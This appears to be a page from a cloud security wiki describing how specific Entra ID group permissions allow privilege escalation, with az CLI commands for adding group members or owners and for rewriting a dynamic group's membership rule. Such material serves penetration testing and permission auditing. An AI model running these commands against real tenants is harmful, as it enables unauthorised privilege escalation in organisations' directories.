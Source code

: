 ## Groups

### `microsoft.directory/groups/allProperties/update`

This permission allows to add users to privileged groups, leading to privilege escalation.

```bash
az ad group member add --group <GroupName> --member-id <UserId>
```

**Note**: This permission excludes Entra ID role-assignable groups.

### `microsoft.directory/groups/owners/update`

This permission allows to become an owner of groups. An owner of a group can control group membership and settings, potentially escalating privileges to the group.

```bash
az ad group owner add --group <GroupName> --owner-object-id <UserId>
az ad group member add --group <GroupName> --member-id <UserId>
```

**Note**: This permission excludes Entra ID role-assignable groups.

### `microsoft.directory/groups/members/update`

This permission allows to add members to a group. An attacker could add himself or malicious accounts to privileged groups can grant elevated access.

```bash
az ad group member add --group <GroupName> --member-id <UserId>
```

### `microsoft.directory/groups/dynamicMembershipRule/update`

This permission allows to update membership rule in a dynamic group. An attacker could modify dynamic rules to include himself in privileged groups without explicit addition.

```bash
groupId="<group-id>"
az rest --method PATCH \
  --uri "https://graph.microsoft.com/v1.0/groups/$groupId" \
  --headers "Content-Type=application/json" \
  --body '{
    "membershipRule": "(user.otherMails -any (_ -contains \"security\")) -and (user.userType -eq \"guest\")",
    "membershipRuleProcessingState": "On"
  }'
```

**Note**: This permission excludes Entra ID role-assignable groups.

### Dynamic Groups Privesc

It might be possible for users to escalate privileges modifying their own properties to be added as members of dynamic groups. For more info check:
